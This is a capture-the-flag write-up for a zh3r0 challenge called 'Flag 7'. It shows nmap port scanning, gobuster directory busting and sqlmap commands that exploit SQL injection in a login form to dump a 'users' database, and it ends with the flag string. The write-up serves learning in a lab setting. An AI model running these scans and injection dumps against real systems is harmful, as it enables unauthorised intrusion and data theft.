 ```yaml
---
layout: post
title: "Flag 7"
author: "shreyas-sriram"
---
```


# Category
Subset of subset of hacking machines challenges

# Challenge
## Flag 7
We are given a URL - ``` hackit.zh3r0.ml ```

# Solution

> Optional: Find IP address of the given domain using **ping**

Since it is a machine, begin with a full port scan

``` nmap -T4 -sC -sV -p- hackit.zh3r0.ml ```

> Note: Not sure if I used the right [options], run ``` nmap --help ``` for better understanding and optimisation

This reveals all the open ports and services running on each port. Also notice that the services running are all mixed up.

```
22/tcp    open     http
25/tcp    filtered smtp
99/tcp    open     ssh
324/tcp   open     ftp
4994/tcp  open     unknown
11211/tcp filtered memcache
```

* Since ``` http ``` is running on port ``` 22 ```, it will be restricted by the browser and we will not be able to access it directly. There are two ways around this problem.
	1. Allow restricted ports in Firefox Browser
		* Go to ``` about:config ``` in Firefox address bar
		* Add a string with name and value as
		```
		name  : network.security.ports.banned.override
		value : 22
		```
		* Access ``` http://hackit.zh3r0.ml:22/robots.txt ```
	2. Access the webpage through cURL or wget<br/>
	``` curl http://hackit.zh3r0.ml:22/robots.txt ```<br/>
	``` wget http://hackit.zh3r0.ml:22/robots.txt ```
* There is a clue which has something to do with **ads**. There are two ways to go about this.
	1. Make a guess to visit ``` http://hackit.zh3r0.ml:22/ads.txt ```
		* Obtain a string encoded in ``` Base 62 ``` (Damn, these aren't the bases I am aware of :tired_face:)
		* Use https://gchq.github.io/CyberChef/ to decode and get another webpage ``` /index2.html ```
		* This page contains a login
	2. Use directory busting tools on ``` http://hackit.zh3r0.ml:22/ ```
		* ``` gobuster dir -u http://hackit.zh3r0.ml:22/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,txt,html,htm ```
		* ``` dirbuster ``` - GUI tool
		* This also reveals ``` /index2.html ``` without getting to ``` ads.txt ```
* The login in page ``` /index2.html ``` seems to be vulnerable to **SQL Injection**, we can exploit it using ``` sqlmap ```
	* To retrieve databases, use the command<br/>
	``` sqlmap -u http://139.59.3.42:22/ --data="username=f4k3&amp;password=fl4g" --method POST --dbs --batch ```
	* There are 4 databases, of which **users** seems interesting
	* To retrieve all information about a database, use the command<br/>
	``` sqlmap -u http://139.59.3.42:22 --data="username=f4k3&amp;password=fl4g" --method POST -D users --dump all --batch ```
	* This gets us **Flag 7**<br/>
	``` zh3r0{Dangit_you_are_good!} ```
	> Note: **sqlmap** takes quite sometime, so grab a snack while you watch the flag unfold :cookie:

